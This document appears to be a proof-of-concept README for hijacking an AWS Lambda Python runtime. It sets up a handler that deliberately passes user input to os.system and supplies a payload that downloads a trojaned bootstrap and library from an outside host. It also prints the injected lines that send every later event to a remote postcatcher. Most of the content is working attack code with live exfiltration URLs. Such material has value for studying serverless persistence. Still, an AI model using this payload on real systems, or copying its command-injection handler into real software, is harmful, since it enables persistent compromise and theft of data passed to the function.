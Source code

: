 # Instructions for POC

- Create a new lambda with a python 3.12 runtime
- set timeout to > 4 seconds
- make it vuln:
```
import json
import os

def lambda_handler(event, context):
    # TODO implement
    return {
        'statusCode': 200,
        'body': os.system(event['cmd'])
    }
```



### test event to supply the lambda to execute the bootstrap swap:
```
{
  "cmd": "python3 -c \"import zipfile;import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://appointmentaid.com/bootstrap2.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'https://appointmentaid.com/awslambdaric-evil.zip');w = open('/tmp/evil.zip', 'wb');w.write(r.data);w.close();zipfile.ZipFile('/tmp/evil.zip', 'r').extractall('/tmp');r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')\""
}
```

After swapping the bootstrap all subsequent events will be leaked in a POST request to https://www.appointmentaid.com/postcatcher.php and can be viewed at https://www.appointmentaid.com/lambda.txt


### Explained
This POC works by editing the existing python 3.12 bootstrap.py file as well as the bootstrap.py file within the `awslambdaric` library itself. The following 3 lines are added to the bootstrap.py inside the `awslambdaric` library inside of the while loop:
```
import urllib3
http = urllib3.PoolManager()
http.request('post', 'https://www.appointmentaid.com/postcatcher.php', body=event_request.event_body)
```

In the main bootstrap.py file, this line is added near the top:
```
sys.path.insert(0, '/tmp')
```
The source code for postcatcher.php is included in the `php` folder in the root of this repo.

The modified `awslambdaric` library is zipped up and hosted along with the `bootstrap.py` file. The "exploit event" is a python one liner that downloads the `bootstrap.py` and the `awslambdaric` zip file. It unzips the zipped library into tmp along with the bootstrap file and then replaces the running bootstrap with the bootstrap.py from /tmp using our modified library.

The one liner code in a more readable format:
```
import zipfile
import urllib3
import os

#download new bootstrap.py file and save it to /tmp
http = urllib3.PoolManager()
r = http.request('GET', 'https://appointmentaid.com/bootstrap2.py')
w = open('/tmp/bootstrap.py', 'w')
w.write(r.data.decode('utf-8'))
w.close()

#download new awslambdaric and save it to /tmp
r = http.request('GET', 'https://appointmentaid.com/awslambdaric-evil.zip')
w = open('/tmp/evil.zip', 'wb')
w.write(r.data)
w.close()

#unzip new awslambdaric library to tmp
zipfile.ZipFile('/tmp/evil.zip', 'r').extractall('/tmp')

#tell lambda api this invocation is done
r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
rid = r.headers['Lambda-Runtime-Aws-Request-Id']
http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'})

#run the new evil bootstrap
os.system('python3 /tmp/bootstrap.py')
```
